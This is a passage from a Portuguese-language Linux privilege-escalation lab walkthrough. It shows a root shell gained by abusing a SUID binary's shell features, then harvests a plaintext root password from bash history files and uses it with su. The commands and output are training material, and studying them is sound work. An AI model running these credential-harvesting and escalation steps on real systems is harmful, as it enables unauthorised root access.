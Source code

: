 ```bash
case "${1}" in
'[' -z apache2 -a 1 -eq 1 -a start = --status-all ']'
'[' 1 -eq 2 -a '' = --full-restart ']'
'[' -z apache2 ']'
'[' -z '' ']'
ACTION=start
shift
'[' 0 -gt 0 ']'
'[' -r /etc/init/apache2.conf ']'
'[' -x /etc/init.d/apache2 ']'
exec env -i LANG= PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin TERM=dumb /etc/init.d/apache2 start
Starting web server: apache2httpd (pid 1659) already running
.
root@debian:~# whoami
root
```

E para finalizar vamos cliclar no botão `Complete`.

Lembrar de remover o arquivo `/tmp/rootbash`.

---

## **<a id="16"> • SUID / SGID Executables - Abusing Shell Features (#3).</a>**

Esse topico nos mostra que se um usuário acidentalmente digitar sua senha na linha de comando em vez de em um prompt de senha, ela poderá ser registrada em um arquivo de histórico.

Para verificarmos o contéudo dos arquivos de histórico, vamos utilizar o seguinte comando:

```bash
user@debian:~$ cat ~/.*history | more
ls -al
cat .bash_history
ls -al
mysql -h somehost.local -uroot -ppassword123
exit
cd /tmp
clear
ifconfig
netstat -antp
nano myvpn.ovpn
ls
exit
```

Note que um usuário tentou se conectar ao banco de dados MySQL com o usuário `root` e a senha `password123` e isso foi registrado no arquivo de histórico.

Com isso podemos tentar logar como root utilizando a senha `password123`:

```bash
user@debian:~$ su root
Password:
root@debian:/home/user# whoami
root
```

